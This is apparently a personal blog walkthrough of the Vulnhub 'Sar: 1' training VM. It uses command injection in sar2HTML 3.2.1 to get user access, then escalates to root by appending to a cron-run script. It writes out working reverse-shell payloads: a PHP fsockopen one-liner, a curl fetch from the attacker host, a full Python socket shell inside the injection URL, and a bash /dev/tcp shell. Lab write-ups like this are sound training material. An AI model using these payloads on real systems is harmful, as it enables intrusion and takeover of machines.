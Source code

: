 ```yaml
---
title: Vulnhub Sar 1
author: tactinix
date: 2021-02-07
categories: [Walk-throughs]
tags: [Vulnhub-Boxes]
math: true
mermaid: true
---
```




Solving this box involve taking advantage of an vulnerability in the Sar2HTML web application, then making use of the cron scheduler to gain root on the box.

### About the box
-   **Name**: Sar: 1
-   **Date release**: 15 Feb 2020
-   **Author**: [Love](https://www.vulnhub.com/author/love,669/)
-   **Series**: [Sar](https://www.vulnhub.com/series/sar,276/)

### Description on Vulnhub
Sar is an OSCP-Like VM with the intent of gaining experience in the world of penetration testing.

### Recon

Starting off with `nmap` and `gobuster`.

`sudo nmap -sC -sV -oA nmap.initial 192.168.178.120`

reveals;

```# Nmap 7.91 scan initiated Sun Feb  7 10:39:36 2021 as: nmap -sC -sV -oA nmap.initial 192.168.178.120
Nmap scan report for sar.fritz.box (192.168.178.120)
Host is up (0.00013s latency).
Not shown: 999 closed ports
PORT   STATE SERVICE VERSION
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: Apache2 Ubuntu Default Page: It works
MAC Address: 08:00:27:82:2A:C6 (Oracle VirtualBox virtual NIC)

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done at Sun Feb  7 10:39:43 2021 -- 1 IP address (1 host up) scanned in 6.73 seconds
```

Only one port open, port 80.

`gobuster dir -w ~/wordlists/SecLists/Discovery/Web-Content/raft-large-files-lowercase.txt -u 192.168.178.120 -o gobuster.out`

get the following;

```/index.html           (Status: 200) [Size: 10918]
/.htaccess            (Status: 403) [Size: 280]
/robots.txt           (Status: 200) [Size: 9]
/.                    (Status: 200) [Size: 10918]
/phpinfo.php          (Status: 200) [Size: 95426]
/.html                (Status: 403) [Size: 280]
/.php                 (Status: 403) [Size: 280]
/.htpasswd            (Status: 403) [Size: 280]
/.htm                 (Status: 403) [Size: 280]
/.htpasswds           (Status: 403) [Size: 280]
/.htgroup             (Status: 403) [Size: 280]
/wp-forum.phps        (Status: 403) [Size: 280]
/.htaccess.bak        (Status: 403) [Size: 280]
/.htuser              (Status: 403) [Size: 280]
/.htc                 (Status: 403) [Size: 280]
/.ht                  (Status: 403) [Size: 280]
/.htaccess.old        (Status: 403) [Size: 280]
/.htacess             (Status: 403) [Size: 280]
```

Initial site on port 80 is the standard "It works" page.

![](/assets/img/sar/20210207105159.png)

Nmap did point to a `robots.txt` which only contains a reference to `sar2HTML`

/sar2HTML

![](/assets/img/sar/20210207105542.png)

Gobuster found /phpinfo.php

![](/assets/img/sar/20210207105643.png)

So, what is `sar2html`?
According to the page on Sourceforge, it's a

`Sar2html is web based frontend for performance monitoring. It converts sar binary data to graphical format and keep historical data in it's library. Both command line and web interface provide same functionality.`
See [Sourceforge](https://sourceforge.net/projects/sar2html/#:~:text=Sar2html%20is%20web%20based%20frontend,web%20interface%20provide%20same%20functionality.&text=Then%20you%20may%20plot%20performance,pdf%20file%20format%20through%20sar2html).
The `sar` command as per Ubuntu manpages,

`sar - Collect, report, or save system activity information.`

Provided by: [sysstat\_11.6.1-1\_amd64](https://launchpad.net/ubuntu/bionic/+package/sysstat) 

The related [Ubuntu manpage](http://manpages.ubuntu.com/manpages/bionic/man1/sar.sysstat.1.html)




Sar2HTML 3.2.1, the version on the box, has an exploit listed on [Exploitdb](https://www.exploit-db.com/exploits/47204).

```txt
# Exploit Title: sar2html Remote Code Execution
# Date: 01/08/2019
# Exploit Author: Furkan KAYAPINAR
# Vendor Homepage:https://github.com/cemtan/sar2html 
# Software Link: https://sourceforge.net/projects/sar2html/
# Version: 3.2.1
# Tested on: Centos 7

In web application you will see index.php?plot url extension.

http://<ipaddr>/index.php?plot=;<command-here> will execute 
the command you entered. After command injection press "select # host" then your command's 
output will appear bottom side of the scroll screen.
            
```

Putting the exploit to action and testing with `whoami`;

![](/assets/img/sar/20210207112123.png)

Some further poking with `ls`;

![](/assets/img/sar/20210207112240.png)

### Gaining a shell

From the /phpinfo.php page we know `curl` is enabled, thus we can leverage it to get a reverse shell, something like pentestermonkey's reverse-php-shell.php on the box. However, through the `post` request into Zap, we can also do a `php` reverse connection with `php -r '$sock\=fsockopen("my_ip",my_port);exec("/bin/sh -i <&3 >&3 2>&3");'`.

Option 2, did not work out so well, but going with `curl` did.
Setting the values and making sure `http://192.168.178.120/sar2HTML/index.php?plot=;curl%20http://192.168.178.79:8000/rs.php` with a `python -m http.server`, also standing up a `nc -lvnp 1337` so long.
![](/assets/img/sar/20210207120342.png)


![](/assets/img/sar/20210207115625.png)


There was definitely a connection, but checking if the script stuck with `ls` did not reveal anything. Doing various `ls`'s' around, I came upon 2 shell scripts in the `app-root`, 
![](/assets/img/sar/20210207121432.png)

Using `wget` to pull them down to look at what they do;

![](/assets/img/sar/20210207143210.png)

Looks like `finally.sh` call `write.sh` that can write to `/tmp`,
something perhaps for later.



Going further, the `user.txt` flag can be had without a shell;

![](/assets/img/sar/20210207122637.png)




It turns out my idea going with a reverse shell `.php` script, might be a brain fart as well, but eventually get a shell on the box with `python`
The full `python` method being, 
```python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("192.168.178.79",1234));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'```
from https://book.hacktricks.xyz/shells/shells/linux#python

with the full URL being `http://192.168.178.120/sar2HTML/index.php?plot=;python3%20-c%20%27import%20socket,subprocess,os;s=socket.socket(socket.AF\_INET,socket.SOCK\_STREAM);s.connect((%22192.168.178.79%22,1234));os.dup2(s.fileno(),0);%20os.dup2(s.fileno(),1);%20os.dup2(s.fileno(),2);p=subprocess.call(%5B%22/bin/sh%22,%22-i%22%5D);%27`
get a shell on a `nc -lvnp 1234`.

![](/assets/img/sar/20210207144748.png)

Pulling LinPEAS.sh and going through the output, the script from before `finally.sh` pops up.

![](/assets/img/sar/20210207150023.png)


Going further through the output,


![](/assets/img/sar/20210207152021.png)

So `crontab` it is!
Firstly, we stand up a `nc -lvnp 1346` to accept the reverse shell when the`crontab` is triggered, then we append our reverse shell command to `write.sh` with a `echo -e "bash -c 'bash -i >& /dev/tcp/192.168.178.79/1346 0>&1'" >> write.sh`.

Wait a bit and viola!

![](/assets/img/sar/20210207161653.png)


Box solved, got the user flag previously through the web vulnerability and the root flag via a naughty crontab.

Thanks for reading and have the best day ever!

tactinix
